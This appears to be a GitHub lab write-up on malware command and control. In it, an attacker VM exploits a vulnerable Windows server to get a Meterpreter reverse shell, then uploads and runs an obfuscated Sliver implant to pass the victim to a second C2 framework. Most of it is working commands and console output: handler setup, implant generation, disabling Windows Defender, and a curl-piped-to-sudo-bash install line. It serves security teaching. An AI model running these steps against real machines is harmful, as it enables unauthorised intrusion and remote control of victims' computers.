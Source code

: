 # Malware Command and Control (C2) Lab
# Objective

Demonstrate Attacker A compromising a Victim(1) with a Meterpreter implant(1) and interacting with Victim using the Metasploit C2 Framework.  Then coordinate with Attacker B, which uses the Sliver C2 Framework, to acquire Attacker B’s Sliver implant(2).  Finally, execute Attacker B’s implant(2), transitioning Victim(1) to Attacker B’s Sliver C2 Framework.

# Prereqs: Set up Lab Environment

## VM #1: Attacker A: Kali VM (for Metasploit C2)
- Recommended system requirements:
	- 2 GB of RAM
	- 20 GB of disk space

## VM #2: ​Attacker B: ParrotOS VM (for Sliver C2)
- Recommended system requirements:
	- 2 GHz dual-core processor or better
	- 4 GB system memory
	- 25 GB of free hard drive space
- Install Sliver (https://github.com/BishopFox/sliver)
	- Note: The one liner on the website will wait for you to pass the user password, because: `sudo`.
	- Install Sliver
		- `curl https://sliver.sh/install|sudo bash`

## VM #3: Windows 10 VM (For Exploit Development/dual use as Victim PC)
- Disable Windows Defender


# Procedure

## i. Prepare the C2 machines

On the ParrotOS VM, generate a Sliver payload, and transfer the binary to the Kali VM.  Finally, start the Sliver C2 listener to be ready to catch the Sliver callback from the Victim PC.


```sh
# From the ParrotOS VM, start the Sliver C2 framework:

┌─[bob@parrot]─[~]
└──╼ $sliver
Connecting to localhost:31337 ...

.------..------..------..------..------..------.
|S.--. ||L.--. ||I.--. ||V.--. ||E.--. ||R.--. |
| :/\: || :/\: || (\/) || :(): || (\/) || :(): |
| :\/: || (__) || :\/: || ()() || :\/: || ()() |
| '--'S|| '--'L|| '--'I|| '--'V|| '--'E|| '--'R|
`------'`------'`------'`------'`------'`------'

All hackers gain assist
[*] Server v1.5.41 - f2a3915c79b31ab31c0c2f0428bbd53d9e93c54b
[*] Welcome to the sliver shell, please type 'help' for options

[*] Check for updates with the 'update' command

sliver >

```




```sh
# generate Sliver payload for the Windows victim:
sliver > generate --http <parrotOS ip>:5309 --save ~


[*] Generating new windows/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 1m1s
[*] Implant saved to /home/bob/AVERAGE_SHAMPOO.exe


# Verify the exe location on the ParrotOS VM:
┌─[bob@parrot]─[~]
└──╼ $pwd
/home/bob

$ll
total 17M
-rwx------ 1 bob bob 17M Feb 27 15:04 AVERAGE_SHAMPOO.exe
drwxr-xr-x 1 bob bob  28 Jan 21 14:13 Desktop
drwxr-xr-x 1 bob bob   0 Feb 25 15:13 Documents


# From the Kali VM, acquire the Sliver implant from the Sliver VM
┌──(bob㉿sneaker)-[~/lab_test]
└─$ scp bob@<parrotOS ip>:/home/bob/AVERAGE_SHAMPOO.exe .


# From the ParrotOS VM, start the Sliver listener
sliver > http --lport 5309
[*] Starting HTTP :5309 listener ...
[*] Successfully started job #1


```




## 1. Establish a foothold

Compromise the Victim PC using the previously developed exploit that overflows a buffer in the `vulnserver.exe` program, resulting in Remote Code Execution (RCE) on the Victim PC.  This exploit executes shellcode on the Victim containing the Meterpreter staged implant which causes the Victim to return an interactive session to Attacker A allowing control of the Victim PC via the Metasploit C2 Framework.




Ensure that the vulnerable server is running on Victim PC, and verify that Windows Defender is still disabled.




From the Kali VM, start a Metasploit listener to catch the Meterpreter callback, then exploit the Victim PC.


```sh
# Setup the Metasploit listener
┌──(bob㉿sneaker)-[~/lab_test]
└─$ sudo msfconsole -q -x "use exploit/multi/handler;\set PAYLOAD
windows/meterpreter/reverse_tcp;
\set LHOST 192.168.218.128;\set LPORT 4455;\run"
[sudo] password for bob: 
[*] Using configured payload generic/shell_reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
LHOST => 192.168.218.128
LPORT => 4455
[*] Started reverse TCP handler on 192.168.218.128:4455
```


```sh
# Exploit the Victim PC
┌──(bob㉿sneaker)-[~/lab_test]
└─$ python exploit.py 

[+]Sending evil buffer...

```


```sh
# Observe the first callback, opening a Meterpreter session with the Victim PC:
[*] Sending stage (175686 bytes) to 192.168.218.132
[*] Meterpreter session 1 opened (192.168.218.128:4455 -> 192.168.218.132:49944) 
at 2024-02-28 13:04:07 -0800

meterpreter > 
```

## 2. Transition the Victim to the Sliver C2 Framework


```sh
# Upload the Sliver binary
meterpreter > upload /home/bob/lab_test/AVERAGE_SHAMPOO.exe .

# Notice how much time this takes to upload (recall it is a 17 MB exe file)

[*] Uploading  : /home/bob/lab_test/AVERAGE_SHAMPOO.exe -> .\AVERAGE_SHAMPOO.exe
[*] Completed  : /home/bob/lab_test/AVERAGE_SHAMPOO.exe -> .\AVERAGE_SHAMPOO.exe
meterpreter > 
```

With an interactive Meterpreter session and the Sliver implant on the Victim PC, now we simply execute the Sliver implant and catch the callback on the ParrotOS VM:

```sh

# Observe the callback
# From the ParrotOS VM Sliver listener:


[*] Starting HTTP :5309 listener ...
[*] Successfully started job #1

[*] Session 90046956 AVERAGE_SHAMPOO - 192.168.218.132:50542 (DESKTOP-5RU61SI)
- windows/amd64 - Tue, 27 Feb 2024 15:07:25 EST

sliver > use 90046956-2ea1-4bc3-be91-5a785aa19054

sliver (AVERAGE_SHAMPOO) >

```

